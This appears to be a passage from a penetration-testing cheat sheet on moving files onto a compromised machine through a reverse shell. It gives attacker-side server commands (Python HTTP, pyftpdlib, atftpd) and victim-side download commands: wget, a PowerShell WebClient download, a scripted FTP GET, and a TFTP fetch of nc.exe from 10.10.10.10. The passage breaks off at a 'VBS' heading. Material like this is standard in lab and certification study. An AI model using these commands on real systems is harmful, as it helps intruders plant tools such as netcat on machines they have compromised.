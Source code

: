 HTTP

The most common file transfer method.

# In Kali
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"

FTP

This process can be mundane, a quick tip would be to be to name the filename as ‘file’ on your kali machine so that you don’t have to re-write the script multiple names, you can then rename the file on windows.

# In Kali
python -m pyftpdlib -p 21 -w

# In reverse shell
echo open 10.10.10.10 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt 
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt

TFTP

Generic.

# In Kali
atftpd --daemon --port 69 /tftp

# In reverse shell
tftp -i 10.10.10.10 GET nc.exe

VBS
